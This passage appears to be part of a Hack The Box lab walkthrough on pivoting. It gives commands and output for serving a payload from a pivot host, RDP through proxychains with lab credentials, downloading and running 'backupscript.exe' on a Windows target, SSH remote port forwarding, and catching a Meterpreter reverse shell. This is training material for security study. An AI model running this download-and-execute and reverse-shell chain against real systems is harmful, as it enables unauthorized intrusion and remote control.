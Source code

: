 ### **Step 5: Start Web Server on Pivot**
```bash
# From Ubuntu pivot shell
python3 -m http.server 8123

# Output:
Serving HTTP on 0.0.0.0 port 8123 (http://0.0.0.0:8123/) ...
```

### **Step 6: RDP to Windows Target**
```bash
# From another terminal (Pwnbox)
proxychains xfreerdp /v:172.16.5.19 /u:victor /p:pass@123

# Certificate prompt - accept:
Do you trust the above certificate? (Y/T/N) Y

# Successfully connected to Windows target
```

### **Step 7: Download Payload on Windows**
```powershell
# From Windows RDP session - Run PowerShell as Administrator
Invoke-WebRequest -Uri "http://172.16.5.129:8123/backupscript.exe" -OutFile "C:\\backupscript.exe"

# Verify download
dir C:\backupscript.exe
```

### **Step 8: Setup SSH Remote Port Forward**
```bash
# From Pwnbox (new terminal)
ssh -R 172.16.5.129:8080:0.0.0.0:8000 ubuntu@10.129.202.64 -vN

# Enter password: HTB_@cademy_stdnt!
# Verbose output shows:
debug1: Remote connections from 172.16.5.129:8080 forwarded to local address 0.0.0.0:8000
debug1: remote forward success for: listen 172.16.5.129:8080, connect 0.0.0.0:8000
```

### **Step 9: Execute Payload & Get Shell**
```cmd
# From Windows RDP session
C:\backupscript.exe

# Back on Metasploit handler:
[*] https://0.0.0.0:8000 handling request from 127.0.0.1; Staging x64 payload...
[*] Meterpreter session 1 opened (127.0.0.1:8000 -> 127.0.0.1) at 2022-05-12 15:30:45

meterpreter > getuid
Server username: INLANEFREIGHT\victor

meterpreter > shell
Process 1234 created.
Channel 1 created.
Microsoft Windows [Version 10.0.17763.1637]
C:\>
```

---